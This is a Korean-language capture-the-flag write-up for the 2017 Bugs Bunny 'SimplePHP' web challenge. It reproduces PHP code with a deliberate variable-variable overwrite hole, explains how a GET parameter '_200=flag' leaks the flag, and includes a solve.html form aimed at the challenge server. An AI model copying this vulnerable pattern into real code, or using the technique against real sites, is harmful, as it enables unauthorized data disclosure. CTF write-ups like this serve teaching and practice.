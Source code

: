 # 2017 Bugs Bunny - [Web] SimplePHP
## Problem
```
PHP for noobs :p ?
Maybe not this time :D

http://34.253.165.46/SimplePhp/index.php
source : http://34.253.165.46/SimplePhp/index.txt

Author: TnMch
```

## Solution
처음 index.php 를 들어가면 `BugsBunnyCTF is here :p...` 라는 문자열만 있고,
아무 것도 없는 것이 보인다.
index.txt 로 해당문제의 소스가 주어져있는데, 이를 확인해보면 다음과 같이 소스가 나온다.
```
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
	die($_403);


foreach ($_GET as $key => $value)
	$$key = $$value;

foreach ($_POST as $key => $value)
	$$key = $value;


if ( $_POST["flag"] !== $flag )
	die($_403);


echo "This is your flag : ". $flag . "\n";
die($_200);

?>
```

다음을 보면, 페이지에 접속을 했을 때, `HTTP METHOD` 가 `POST` 가 아닌 경우에
`BugsBunnyCTF is here :p...` 이라는 문자열을 출력하고, `POST` 변수로 `flag` 를 입력받는다.

`$$key = $$value` 로 가변 변수를 사용하는 것을 확인할 수 있다.
가변변수는 예를 들어 다음과 같은 코드가 있다고 해보자,
```
<?php
$a = 'hello';
$$a = 'world';
echo "$a ${$a}<br>";
echo "$a $hello";
?>
```
여기서 `$a` 는 `hello` 라는 문자열이 들어가고, `$$a` 에는 `world` 라는 문자열이
들어가는데 가변변수는 변수값을 취해서 변수명으로 취급한다.

결론적으로는  `$hello` 라는 변수 역시 생긴것이다.

그렇다면, `GET` 방식으로 `_200` 이라는 변수에 flag 를 넣어주고, `POST` 방식으로
`flag` 변수에 아무값을 넣어 넘겨주기만 하면 된다.

그렇다면 php 내부에서 돌아가는 코드는 대략 이렇게 된다.
```
<?php

include "flag.php";

$_403 = "Access Denied";
$_200 = "Welcome Admin";

if ($_SERVER["REQUEST_METHOD"] != "POST")
	die("BugsBunnyCTF is here :p...");

if ( !isset($_POST["flag"]) )
	die($_403);


foreach ($_GET as $_200 => $flag)
	$_200 = $flag;

foreach ($_POST as $$flag => $value)
	$$flag = $value;


if ( $_POST["flag"] !== $flag )
	die($_403);


echo "This is your flag : ". $flag . "\n";
die($flag);

?>
```

`$_200` 변수에 `$flag` 가 들어가게 되고, 기존에 `$flag` 는 사용자 입력값으로
바뀌게 된다.

그러면, `GET` 방식으로 `_200` 에 `flag` 를 넣어주고, `flag` 에는 아무값을 입력해주면
다음과 같이 나온다.

```
This is your flag : tendollar Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}
```

Flag : `Bugs_Bunny{Simple_PHP_1s_re4lly_fun_!!!}`

## Solve.html Source
```
<!DOCTYPE html>
<html>
<head>
	<title> SimplePHP Solve HTML Code</title>
</head>
<body>
<form action="http://34.253.165.46/SimplePhp/index.php?_200=flag" method="POST">
<input type="text" name="flag"><br>
<input type="submit" value="ok">
</form>
</body>
</html>
```
